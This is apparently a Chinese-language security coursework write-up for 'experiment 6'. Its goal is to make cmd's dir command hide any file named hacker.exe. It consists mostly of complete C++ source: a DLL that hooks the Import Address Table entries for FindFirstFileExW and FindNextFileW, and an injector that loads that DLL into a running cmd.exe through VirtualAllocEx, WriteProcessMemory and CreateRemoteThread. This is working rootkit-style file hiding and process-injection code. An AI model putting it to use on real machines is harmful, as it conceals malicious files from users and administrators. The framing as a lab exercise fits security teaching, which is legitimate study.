




### 实验6

**要求：通过API hook的方法，使得cmd的dir命令看不到任意目录下的hacker.exe**

对于32位cmd.exe，相关函数如下:
- FindFirstFileExW
- FindNextFileW

执行dir指令时会按顺序调用1次```FindFirstFileExW```与若干次```FindNextFileW```





HookFindFileW.cpp
```txt
#include <windows.h>

#define FILENAME "hacker.exe"
LONG IATHook(
	__in_opt void* pImageBase,
	__in_opt const char* pszImportDllName,
	__in const char* pszRoutineName,
	__in void* pFakeRoutine,
	__out HANDLE* phHook
);

LONG UnIATHook(__in HANDLE hHook);

void* GetIATHookOrign(__in HANDLE hHook);

typedef HANDLE(__stdcall *LPFN_FindFirstFileExW)(
	LPCSTR             lpFileName,
	FINDEX_INFO_LEVELS fInfoLevelId,
	LPVOID             lpFindFileData,
	FINDEX_SEARCH_OPS  fSearchOp,
	LPVOID             lpSearchFilter,
	DWORD              dwAdditionalFlags
	);
typedef BOOL(__stdcall *LPFN_FindNextFileW)(
	HANDLE             hFindFile,
	LPWIN32_FIND_DATAW lpFindFileData
	);
HANDLE g_hHook_FindFirstFileExW = NULL;
HANDLE g_hHook_FindNextFileW = NULL;
//////////////////////////////////////////////////////////////////////////

HANDLE __stdcall Fake_FindFirstFileExW(
	LPCSTR             lpFileName,
	FINDEX_INFO_LEVELS fInfoLevelId,
	LPVOID             lpFindFileData,
	FINDEX_SEARCH_OPS  fSearchOp,
	LPVOID             lpSearchFilter,
	DWORD              dwAdditionalFlags
){
	LPFN_FindFirstFileExW fnOrigin = (LPFN_FindFirstFileExW)GetIATHookOrign(g_hHook_FindFirstFileExW);
	HANDLE hFindFile = fnOrigin(lpFileName, fInfoLevelId, lpFindFileData, fSearchOp, lpSearchFilter, dwAdditionalFlags);
	while (0 == wcscmp(((WIN32_FIND_DATA*)lpFindFileData)->cFileName, TEXT(FILENAME))) {
		FindNextFileW(hFindFile, (LPWIN32_FIND_DATA)lpFindFileData);
	}
	return hFindFile;
}

BOOL __stdcall Fake_FindNextFileW(
	HANDLE             hFindFile,
	LPWIN32_FIND_DATAW lpFindFileData
) {
	LPFN_FindNextFileW fnOrigin = (LPFN_FindNextFileW)GetIATHookOrign(g_hHook_FindNextFileW);
	BOOL rv = fnOrigin(hFindFile, lpFindFileData);
	if (0 == wcscmp(((WIN32_FIND_DATA*)lpFindFileData)->cFileName, TEXT(FILENAME))) {
		rv = fnOrigin(hFindFile, lpFindFileData);
	}
	return rv;
}

BOOL WINAPI DllMain(HINSTANCE hinstDll, DWORD dwReason, LPVOID lpvRevered) {
	switch (dwReason) {
	case DLL_PROCESS_ATTACH:
		IATHook(
			GetModuleHandle(NULL),
			"kernel32.dll",
			"FindFirstFileExW",
			Fake_FindFirstFileExW,
			&g_hHook_FindFirstFileExW
		);
		IATHook(
			GetModuleHandle(NULL),
			"kernel32.dll",
			"FindNextFileW",
			Fake_FindNextFileW,
			&g_hHook_FindNextFileW
		);
		break;
	case DLL_PROCESS_DETACH:
		UnIATHook(g_hHook_FindFirstFileExW);
		UnIATHook(g_hHook_FindNextFileW);
		break;
	}
	return TRUE;
}
```

Inject.cpp
```txt
#include <windows.h>
#include <stdio.h>
#include <tlhelp32.h>

int main() {
	char szDllName[] = "C:\\HookFindFileW.dll";
	char szExeName[] = "cmd.exe";

	/* Step 1 */
	PROCESSENTRY32 ProcessEntry = {};
	ProcessEntry.dwSize = sizeof(PROCESSENTRY32);
	HANDLE hProcessSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	bool bRet = Process32First(hProcessSnap, &ProcessEntry);
	DWORD dwProcessId = 0;
	while (bRet) {
		if (strcmp(szExeName, ProcessEntry.szExeFile) == 0) {
			dwProcessId = ProcessEntry.th32ProcessID;
			break;
		}
		bRet = Process32Next(hProcessSnap, &ProcessEntry);
	}
	if (0 == dwProcessId) {
		printf("找不到进程\n");
		return 1;
	}

	/* Step 2 */
	HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwProcessId);
	if (0 == hProcess) {
		printf("无法打开进程\n");
		return 1;
	}

	/* Step 3 */
	size_t length = strlen(szDllName) + 1;
	char * pszDllFile = (char *)VirtualAllocEx(hProcess, NULL, length, MEM_COMMIT, PAGE_READWRITE);
	if (0 == pszDllFile) {
		printf("远程空间分配失败\n");
		return 1;
	}

	/* Step 4 */
	if (!WriteProcessMemory(hProcess, (PVOID)pszDllFile, (PVOID)szDllName, length, NULL)) {
		printf("远程空间写入失败\n");
		return 1;
	}

	/* Step 5 */
	PTHREAD_START_ROUTINE pfnThreadRtn = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle("kernel32"), "LoadLibraryA");
	if (0 == pfnThreadRtn) {
		printf("LoadLibraryA函数地址获取失败\n");
		return 1;
	}

	/* Step 6 */
	HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, pfnThreadRtn, (PVOID)pszDllFile, 0, NULL);
	if (0 == hThread) {
		printf("远程线程创建失败\n");
		return 1;
	}

	/* Step 7 */
	WaitForSingleObject(hThread, INFINITE);
	printf("远程线程执行完毕!\n");

	VirtualFreeEx(hProcess, (PVOID)pszDllFile, 0, MEM_RELEASE);
	CloseHandle(hThread);
	CloseHandle(hProcess);

	return 0;
}
```




